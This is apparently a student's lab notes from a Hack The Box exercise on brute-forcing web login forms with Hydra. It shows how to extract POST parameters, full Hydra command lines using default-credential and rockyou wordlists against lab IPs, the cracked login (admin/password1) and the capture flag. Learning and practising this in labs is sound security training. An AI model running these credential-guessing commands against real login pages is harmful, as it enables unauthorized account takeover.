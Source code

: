 # Hydra Modules

## Brute Forcing Forms

hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e

hydra http-post-form -U
 "/login.php:user=^USER^&pass=^PASS^:incorrect"

## Fail/Success String

"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"

# Determine Login Parameters

## Using Browser

[CTRL + SHIFT + E]
Copy > Copy POST data
username=test&password=test


## cURL

curl 'http://178.128.40.63:31554/login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.40.63:31554' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://178.128.40.63:31554/login.php' -H 'Cookie: PHPSESSID=8iafr4t6c3s2nhkaj63df43v05' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=test&password=test'

## Using Burp Suite

Set interception

username=admin&password=admin

--> specification in hydra :
"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

# Login Form Attacks

## Default Credentials

hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

## Password Wordlist

hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

## LAB

http://83.136.250.104:48522/login.php

hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.250.104 -s 48522 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"


locate rockyou.txt
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
/usr/share/wordlists/rockyou.txt

hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 83.136.250.104 -s 48522 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

[48522][http-post-form] host: 83.136.250.104   login: admin   password: password1

HTB{bru73_f0rc1n6_15_4_l457_r350r7}
